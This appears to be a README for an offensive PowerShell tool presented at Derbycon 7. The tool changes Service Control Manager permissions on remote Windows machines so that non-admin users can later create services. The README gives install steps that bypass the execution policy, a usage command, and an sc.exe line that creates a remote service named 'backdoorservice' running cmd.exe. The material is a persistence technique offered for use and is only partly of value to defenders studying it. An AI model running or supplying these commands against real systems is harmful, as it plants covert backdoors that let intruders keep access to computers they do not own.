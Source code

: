 # SCManagerBackdoor
SCManagerBackdoor Script as described in An ACE in the Hole talk Derbycon7
Sets permissions on SCManager on remote computers so that non-admin users can create a backdoor service. Can be used to Backdooring a remote computer.
Will Require local administrator rights on remote computer to backdoor SCManager

# Install
Set-ExecutionPolicy Bypass
Import-Module Set-SCManagerBackdoor

# Usage
Set-SCManagerBackdoor -RemoteComputer "IP\remotecomp.domain.com" -Username "domain\myusername"

sc.exe \\Remote-Computer create backdoorservice binpath= C:\Windows\system32\cmd.exe

# ToDo
MayBe Add functionality add service as well with Delete privileges
https://msdn.microsoft.com/en-us/library/windows/desktop/ms685981(v=vs.85).aspx#access_rights_for_the_service_control_manager

# Credits
@harmj0y
@wald0
@vysec
